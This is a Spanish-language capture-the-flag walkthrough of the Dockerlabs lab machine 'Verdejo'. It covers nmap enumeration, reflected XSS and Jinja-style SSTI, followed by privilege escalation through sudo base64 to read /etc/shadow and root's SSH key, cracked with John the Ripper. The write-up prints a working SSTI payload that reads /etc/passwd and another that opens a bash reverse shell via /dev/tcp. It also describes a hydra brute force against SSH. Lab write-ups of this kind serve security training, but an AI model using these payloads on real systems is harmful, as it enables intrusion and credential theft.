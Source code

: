 
Hola otra vez, vamos a resolver otra máquina de [Dockerlabs](https://dockerlabs.es/#/), en este caso la máquina se llama Verdejo y está incluida en la categoría fácil de Dockerlabs de [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg).

![alt text](images/image.png)

---------------------------------------------------------------------------------------------------------------------------------------------------

Sin más que añadir vamos a ello, como siempre empezaremos por descargar la máquina y realizar su instalación, recordad que funcionan mediante docker por lo que estaremos creando un contenedor en nuestra máquina local en el que se almacenará la máquina víctima.

![alt text](images/image-1.png)

Empezaremos realizando un ping a la máquina para verificar su correcto funcionamiento, al hacerlo vemos que tiene un TTL de 64, lo que significa que la máquina objetivo usa un sistema operativo Linux.

![alt text](images/image-2.png)

Como vemos, la máquina funciona correctamente y podemos empezar con el proceso de enumeración de la misma, vamos a ello.

# Enumeración

Lo primero que haremos para enumerar esta máquina será realizar un escaneo básico de puertos para identificar cuáles están abiertos.

```sudo nmap -p- --min-rate 5000 172.17.0.2 -Pn -n -oN escaneo```

![alt text](images/image-3.png)

Encontramos tres puertos abiertos en el sistema, vamos a realizar un escaneo más exhaustivo para tratar de enumerar las versiones de los servicios y lanzar unos scripts básicos de reconocimiento que nos proporciona la propia herrmienta de Nmap.

```sudo nmap -p 22,80,8089 -sCV 172.17.0.2 -Pn -n -oN escaneoSC```

![alt text](images/image-6.png)

Parece que tanto en el puerto 80 como en el 8089 podemos encontrar servicios web, vamos a enumerar los mismos con detalle para localizar nuestro primer vector de entrada.

![alt text](images/image-7.png)

En el puerto 80 encontramos una página por defecto, de cualquier forma vamos a tratar de fuzzear este servicio para verificar que no haya directorios o archivos ocultos que noes estemos perdiendo.

![alt text](images/image-8.png)

Vale, no hay absolutamente nada que nos valga la pena mirar con detenimiento así que vamos a pasar al puerto 8089 a ver si en este caso encontramos algo prometedor.

![alt text](images/image-9.png)

Bueno parece que esto es algo más interesante, vamos a comenzar a hacer algunas pruebas, aunque antes de esto fuzzearemos también este puerto para asegurarnos de que no haya nada que nos estemos perdiendo.

![alt text](images/image-10.png)

Genial, parece que en este campo de entrada se produce una reflexión del contenido introducido. Vamos a intentar usar esto a nuestro favor.

# Explotación

![alt text](images/image-11.png)

![alt text](images/image-12.png)

Efectivamente y como esperaba esto es vulnerable a XSS reflejado, pero será complicado elevar esto para conseguir una conexión al sistema, vamos a verificar si esta reflexión también es vulnerable a SSTI(Server Side Template Injection).

![alt text](images/image-13.png)

![alt text](images/image-14.png)

¡Eso es! La operación se realiza correctamente por lo que es vulnerable, vamos a intentar obtener ejecución remota de código desde aquí y obtener nuestro primer acceso al sistema. En este caso concreto veo dos posibilidades, obtener un acceso leyendo el archivo /etc/passwd y realizando un ataque de fuerza bruta a los usuarios encontrados u obteniendo directamente una shell dentro del sistema. Para este caso y para practicar un poco más estas inyecciones probaré los dos métodos, vamos a ello.

# Método 1

Para el primer método buscaremos una carga maliciosa en PayloadAllTheThings que nos permita listar los usuarios dentro del sistema para luego relizar un ataque de fuerza bruta al puerto 22 ya que vimos en el escaneo inicial que este puerto está disponible. El payload en concreto será ```{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}```

![alt text](images/image-15.png)

Genial, tenemos el nombre de un usuario disponible en el sistema, vamos a usar hydra para lanzar un atque de fuerza bruta al mismo y tratar de obtener un inicio de sesió exitoso por SSH.

![alt text](images/image-16.png)

En caso de que la contraseña del usuario se encontrase dentro del diccionario podríamos obtener las credenciales válidas del usuario para conectarnos mediante SSH, vamos a explorar la siguiente opción.

# Método 2

Para este otro método trataremos de introducir una reverse shell aprovechando esta SSTI para recibir una conexión y obtener acceso al sistema. El payload que usaremos para lograr esto será ```{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/172.17.0.1/4444 0>&1"').read() }}```

![alt text](images/image-17.png)

![alt text](images/image-18.png)

![alt text](images/image-19.png)

¡Genial! Conseguimos de esta manera nuestro primer acceso y estamos listos para tratar de elevar nuestros privilegios con el objetivo de comprometer el sistema por completo.

# Post-Explotación

Estando dentro del sistema vamos a tratar de enumerar los permisos de nuestro usuario para buscar el vector que nos permitirá convertirnos en el usuario root.

![alt text](images/image-20.png)

Vale, parece que el usuario puede ejecutar el binario base64 como root sin requerir el uso de contraseña, vamos a buscar la forma de usar esto a nuestro favor.

![alt text](images/image-21.png)

Parece que podemos usar esto para leer cualquier archivo como root.

![alt text](images/image-22.png)

Funciona correctamente y podemos leer el archivo /etc/shadow pero no aparece el hash del usuario root, tendremos que buscar otra manera. Al tener disponible el servicio SSH no sería descabellado pensar que podemos leer el id_rsa del usuario root para usar este archivo para iniciar sesión como root mediante este servicio.

![alt text](images/image-23.png)

Efectivamente, vamos a crear un archivo en nuestra máquina atacante con este contenido.

![alt text](images/image-24.png)

Parece que necesitamos la clave para poder usar este archivo para conectarnos como root. John The Ripper nos ofrece una funcionalidad para tratar de extraer el hash de esta clave para luego intentar crackearla, vamos a intentarlo.

![alt text](images/image-25.png)

Con este hash en nuestro poder vamos a intentar crackearlo para obtener el contenido original de esta clave que necesitamos.

![alt text](images/image-26.png)

![alt text](images/image-27.png)

¡Genial! Tenemos la clave, vamos a intentar iniciar sesión nuevamente haciendo usándola.

![alt text](images/image-28.png)

Conseguimos acceder al sistema como root y tenemos el control total sobre el sistema pudiendo dar por concluida la máquina. Espero que os haya gustado mucho y nos vemos en la siguiente. :)




